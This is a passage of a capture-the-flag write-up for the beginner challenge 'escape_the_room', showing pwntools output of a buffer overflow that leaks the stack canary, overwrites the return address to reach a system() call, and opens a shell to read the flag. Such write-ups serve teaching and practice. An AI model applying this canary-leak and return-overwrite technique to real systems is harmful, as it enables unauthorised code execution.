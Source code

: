 > Note: I could not get the script to work if we wanted to return to escape function. But I ended up returning to just before the shell is being called with system function inside the escape function. Also note that I could do it because PIE was disabled and I could jump to any address directly.

```sh
backdoor/beginner/escape_the_room on  master [!?] via 🐍 v3.11.6
❯ ./sol.py
[*] '/home/groot/dev/gr007-40.github.io/docs/writeups/2023/backdoor/beginner/escape_the_room/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/groot/dev/gr007-40.github.io/docs/writeups/2023/backdoor/beginner/escape_the_room/chal' argv=[b'/home/groot/dev/gr007-40.github.io/docs/writeups/2023/backdoor/beginner/escape_the_room/chal'] : pid 142126
[*] Loaded 5 cached gadgets for './chal'
[DEBUG] Received 0x5a bytes:
    b'Welcome to Escape the R00m !\n'
    b'You have only two chances to escape the room ...\n'
    b'Enter key : '
[DEBUG] Sent 0x49 bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\n'
[DEBUG] Received 0x7a bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000040  42 42 42 42  42 42 42 42  0a 36 4e c6  3d 16 d2 43  │BBBB│BBBB│·6N·│=··C│
    00000050  01 20 69 73  20 6e 6f 74  20 74 68 65  20 6b 65 79  │· is│ not│ the│ key│
    00000060  2c 20 74 72  79 20 61 67  61 69 6e 20  21 0a 45 6e  │, tr│y ag│ain │!·En│
    00000070  74 65 72 20  6b 65 79 20  3a 20                     │ter │key │: │
    0000007a
[*] canary: b'\x006N\xc6=\x16\xd2C'
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000040  42 42 42 42  42 42 42 42  00 36 4e c6  3d 16 d2 43  │BBBB│BBBB│·6N·│=··C│
    00000050  1a 10 40 00  00 00 00 00  96 15 40 00  00 00 00 00  │··@·│····│··@·│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
[DEBUG] Received 0x11 bytes:
    b'Wrong, go away !\n'
Wrong, go away !
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'chal  flag.txt\n'
chal  flag.txt
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x3e bytes:
    b'flag{unl0ck_y0ur_1m4gin4ti0ns_esc4p3_th3_r00m_0f_l1m1t4t10n5}\n'
flag{unl0ck_y0ur_1m4gin4ti0ns_esc4p3_th3_r00m_0f_l1m1t4t10n5}
```

flag: `flag{unl0ck_y0ur_1m4gin4ti0ns_esc4p3_th3_r00m_0f_l1m1t4t10n5}`
